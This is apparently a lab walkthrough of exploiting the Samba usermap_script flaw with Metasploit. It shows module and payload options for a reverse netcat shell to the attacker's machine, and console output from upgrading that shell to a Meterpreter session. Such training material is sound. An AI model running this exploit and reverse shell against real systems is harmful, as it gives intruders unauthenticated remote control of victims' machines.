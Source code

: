 ## How it works...
- Samba is used for printers and file sharing between Linux and Windows machines.
- No authentication is needed to exploit this vulnerability.

## What about the payload?
- Since we didn't specify a payload, metasploit did that for us; it selected a Unix reverse TCP shell, filled in the listen address with our Kali Linux IP address, and used the default listen port 4444.
#### To display this information, we can use the show options command:
```python
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.216.4    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploi
                                      t.html
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.216.9    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

#### To list all the available payloads, we use the show payloads command:
```python
msf6 exploit(multi/samba/usermap_script) > show payloads
```

## upgrading shell to a meterpreter session using "-u" option:
```python
msf6 exploit(multi/samba/usermap_script) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3]

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.216.9:4433 
[*] Sending stage (1017704 bytes) to 192.168.216.4
[*] Command stager progress: 100.00% (773/773 bytes)
```
